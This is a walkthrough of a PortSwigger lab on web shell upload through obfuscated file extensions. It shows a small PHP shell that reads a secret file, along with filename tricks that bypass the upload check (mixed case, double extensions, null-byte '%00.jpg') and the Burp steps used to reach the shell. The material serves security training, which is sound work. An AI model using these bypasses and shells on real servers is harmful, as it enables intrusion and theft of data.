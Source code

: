 # Lab : Web shell upload via obfuscated file extension
[**Click here to enter the Lab**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

## Lab Description

This lab contains a vulnerable image upload function that tries to protect the server by blacklisting certain dangerous file extensions such as `.php`. However, this protection can be bypassed using **classic obfuscation techniques**, which allow attackers to disguise malicious files in ways that evade the blacklist.

For example, using techniques like **mixed case extensions** (e.g., `.pHp`), **double extensions** (e.g., `shell.php.jpg`), or **URL-encoded characters** (e.g., `shell%2Ephp`), attackers can trick the server into accepting and eventually executing a **PHP web shell** that appears harmless at first glance.

> **Hint**: The blacklist is not comprehensive and can be bypassed using a clever variation of the file extension.

Your goal in this lab is to:

- Upload a basic PHP web shell using an obfuscated or disguised filename.
- Access and execute the web shell to issue commands.
- Use the shell to read the contents of the file located at `/home/carlos/secret` on the server.
- Submit the secret using the submission button in the lab banner to complete the lab.

You can log in to your own account using the following credentials:  
- **Username:** `wiener`  
- **Password:** `peter`

---

## Solution 

- At first login with credentials `wiener` , `peter` .
- Then go to image upload functionality on **My Account** page .
  
   ![image](https://github.com/user-attachments/assets/8b1f6754-9862-4f3b-a986-23ac932fdca2)

- At previous labs we write a simple web shell in a file and named it `SimpleShell.php` that's content is :
  
```php
<?php
echo "<pre>";
echo file_get_contents("/home/carlos/secret");
echo "</pre>";
?>
```

it's role is to print content of `/home/carlos/secret` 

- Now upload this file using **Image upload** functionality.Observe we got an error :

  ![PM](https://github.com/user-attachments/assets/fd3fb4ce-f952-413e-9030-f8daf7c35fab)


To resolve this issue, we need to bypass the file extension validation by using an obfuscation technique involving a **null byte injection**.

### Technique

Upload your PHP shell file named `SimpleShell.php` with an obfuscated filename like:

- `SimpleShell.php%00.jpg`
- `SimpleShell.php%00.png`

This tricks the server into thinking it's an image file during the upload validation but may still treat it as a `.php` file at runtime due to how it interprets the null byte.

### Explanation

- `%00`: This represents a **null byte** in URL encoding. In certain programming languages or older server implementations (such as early versions of PHP), the null byte is treated as a **string terminator**. This means that everything **after** the null byte is **ignored** during execution.
- `.jpg` or `.png`: These extensions are appended after the null byte to **bypass file upload validation**. Many upload filters only allow files with these "safe" image extensions.


When you upload `SimpleShell.php%00.jpg`, the validation logic sees `.jpg` and allows it. However, if the server truncates the filename at `%00` when handling execution, it will run the file as `SimpleShell.php`.

This allows you to successfully upload and execute your PHP web shell despite extension filtering.

![p](https://github.com/user-attachments/assets/fcb348dd-3a78-4e93-823b-d026a013cbe1)

- In the browser reload the My Account page and in the burp suite under HTTP history find GET /files/avatars/SimpleShell.php%00.jpg request, observe its response we got the error 404 not found.

![tt](https://github.com/user-attachments/assets/fa50d2ae-2c2e-40eb-bcf0-028b51b8d892)

- Send this request to the Repeater tab and replace GET /files/avatars/SimpleShell.php%00.jpg with GET /files/avatars/SimpleShell.php and send the request. Observe we got user carlos secret.

![q](https://github.com/user-attachments/assets/e5bff59b-9629-4aca-91bc-87fbb6e7f3f9)

---

- ## Copy the secret and submit it in the browser to solve the lab successfully …

![i](https://github.com/user-attachments/assets/609080b2-c826-4175-8f79-1a4ba8e360f2)

![qa](https://github.com/user-attachments/assets/cce2cc5e-cf3f-432a-a231-4b3acb18aede)




